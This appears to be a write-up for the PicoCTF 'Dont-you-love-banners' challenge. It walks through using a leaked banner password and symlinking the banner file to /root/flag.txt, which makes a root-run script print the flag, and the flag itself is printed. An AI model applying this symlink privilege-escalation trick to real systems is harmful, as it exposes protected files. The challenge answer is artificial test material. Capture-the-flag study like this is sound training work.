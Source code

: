 ```yaml
---
title: "Dont-you-love-banners from PicoCTF"
categories: [PicoCTF]
tags: [PicoCTF]
---
```

# Dont-you-love-banners from PicoCTF
[page](https://play.picoctf.org/practice/challenge/437?difficulty=2&page=1&search=&solved=0)
>  Description
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 59034`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 62268`. From the above information abuse the machine and find the flag in the /root directory.

>Hints
>1.Do you know about symlinks?
>2.Maybe some small password cracking or guessing

Let's connect to `tethys.picoctf.net 59034`. After connecting we get this: 
```
 nc tethys.picoctf.net 59034
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```
I guess it's the password for: `nc tethys.picoctf.net 62268`. Let's connect to it.
```
$  nc tethys.picoctf.net 62268
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
Def con
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ 
```
This questions are simple search.
Okay now let's find where is flag located.
```
player@challenge:~$ find / -type f -name "flag.txt" 2>/dev/null
find / -type f -name "flag.txt" 2>/dev/null
/root/flag.txt
```
Let's head to root directory. I can't read flag, I do not have permission to do that. But i can read `script.py`:
```
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```
It's script what we see when we try to connect to the server. Everything is okay except one thing:
```
if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
```
This means when we try to connect to server it reads `banner` and prints it: 
```
*************************************
**************WELCOME****************
*************************************
```
From Hints i know i have to make `symlink` and from Description i get that i have to abuse `banner`. So let's make `symlink` so when i connect to server it reads `flag.txt` located in root directory.
 First remove banner so we can create new one named `banner` and make it `symlink`. 
 ```
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
```
`symlink` is created so let's connect to server once again:
```
nc tethys.picoctf.net 62268
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

what is the password?
```
Here we go flag is: 
**picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}**
